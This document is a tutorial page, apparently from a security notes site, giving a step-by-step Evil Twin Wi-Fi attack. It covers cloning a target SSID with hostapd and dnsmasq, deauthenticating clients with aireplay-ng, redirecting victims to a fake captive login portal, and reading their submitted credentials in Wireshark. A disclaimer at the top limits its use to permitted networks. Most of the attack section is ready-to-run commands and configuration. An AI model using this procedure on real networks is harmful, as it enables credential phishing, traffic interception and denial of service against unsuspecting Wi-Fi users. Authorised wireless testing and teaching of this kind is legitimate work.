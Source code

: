 # Evil-Twin Attack



{% hint style="danger" %}
This is for educational purposes and only to be performed on networks you have permission to do so.
{% endhint %}

Basic info on Wireless can be found [here](../../networking/wireless/).\
\
This will be a walk through on performing an [Evil Twin wireless attack](https://www.varonis.com/blog/evil-twin-attack) and [Captive Portals](https://www.linksys.com/what-is-a-captive-portal.html).

An evil twin is a fake wireless access point(AP) that looks like a real one. The concept is to set up a malicious wireless network with the same SSID name as the target.

This is not required to have a WiFi Adapter that supports monitor mode, also known as packet injection. Though this will required if kicking clients off their network to connect to ours.

## Hardware

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox\_sc\_act\_title\_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref\_=cm\_sw\_r\_cp\_ud\_dp\_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

You can also use a device such as [WiFi Pineapple](https://shop.hak5.org/products/wifi-pineapple). This primarily works on open networks.

First we install the prerequisites

```
sudo apt install -y dnsmasq and hostapd aircrack-ng
```

## Finding target

First we find our target, I will target "Open-WiFi" in this example. we use airodump for this

```
sudo airodump-ng (interface) 
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Kill process that may interfere

```
sudo airmon-ng check kill
```

<figure><img src="../../.gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

now put the interface into monitor mode if we're deauthenticating a client.

```
sudo airmon-ng start (interface)
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Setup AP

Create `dnsmaqs.conf` file

```
# Set the wifi interface
interface=(interface)

# Set the IP range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,255.255.255.0,8h

# Set the gateway IP address
dhcp-option=3,10.0.0.1

# Set DNS server address
dhcp-option=6,10.0.0.1

# Set Server
server=8.8.8.8

# logs
log-queries
log-dhcp

# Redirect all requests to 10.0.0.1
#address=/#/10.0.0.1

# Redirect google to 10.0.0.1
#address=/google.com/10.0.0.1
#address=/www.google.com/10.0.0.1
#address=/google.com/www.google.com.com/10.0.0.1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Note to uncomment lines. if we uncomment the `#address=/#/10.0.0.1` this will let clients connect but they will not get internet access as the pound sign(`#`) is a wildcard for dnsmasq. So they will connect to the AP, then immediately asked to sign-in with the Evil Portal that is setup.

So instead we can redirect websites back to our Evil Portal instead.

Create `hostapd.conf` and fill in with target info

```
interface=(interface)
driver=nl80211
ssid=(Target AP)
hw_mode=g
channel=(Target channel)
macaddr_acl=0
ignore_broadcast_ssid=0
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Assign the interface a gateway and netmask

```
sudo ifconfig (interface) up 10.0.0.1 netmask 255.255.255.0
```

Add the routing table

```
sudo route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

Setup an easy script for IP with:

```
sudo iptables --flush
sudo iptables --table nat --append POSTROUTING --out-interface (internet interface) -j MASQUERADE 
sudo iptables --append FORWARD --in-interface (wireless interface) -j ACCEPT 
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I named mine IP-Tables.sh. Make it executable and run it

```
chmod +x IP-Tables.sh
sudo ./IP-Tables.sh
```

If you want the AP setup without using a captive portal, just run dnsmasq and hostapd

Start dnsmasq with

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd with

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

### Captive Portals

Put your captive portal files, and put them in the `/var/www/html/` directory.

[Example Portals here](https://github.com/Th4ntis/Evil-Portals.git)

Edit `/etc/apache2/sites-enabled/000-default.conf` and add the following to the end

```
sudo nano /etc/apache2/sites-enabled/000-default.conf
```

```
<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>
```

<figure><img src="../../.gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

Start the web server

```
sudo service apache2 start
```

Start dnsmasq with:

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd AP with:

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

<figure><img src="../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

Once we're ready, we can disconnect clients from their network to connect to ours with aireplay.

```
sudo aireplay-ng -0 0 -a (BSSID) (interface)
```

OR if we want to deauth a specific client:

```
sudo aireplay-ng -0 0 -a (bssid) -c (Client MAC Address) (interface)
```

the `-0 0` will send deauth packets continuously until stopped. we can change it to `-0 10` to send just 10 deauth packets.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Post connection

Once they are connected, or even before, we can start intercepting traffic with whatever tools we want, like [Wireshark](../../networking/wireshark.md), [tshark](https://www.wireshark.org/docs/man-pages/tshark.html), [tcpdump](https://www.tcpdump.org/), etc. In this case I'll use wireshark on `wlan0`, the interface I was broadcasting from.

<figure><img src="../../.gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

As the user attempts to go to any page, they are taken to a login portal, asked enter a username/password on the portal and it will be captured.

We look for `HTTP Post Request` , then HTML Form URL Encoded, we will see their credentials.

<figure><img src="../../.gitbook/assets/image (468).png" alt=""><figcaption></figcaption></figure>

#### Wireshark to filter for packets

* `dns and ip.adr=(IP)` to see sites they are going to
* `frame contains (word)` will search for various words
* `http.request.method=="POST"` will show us login info.
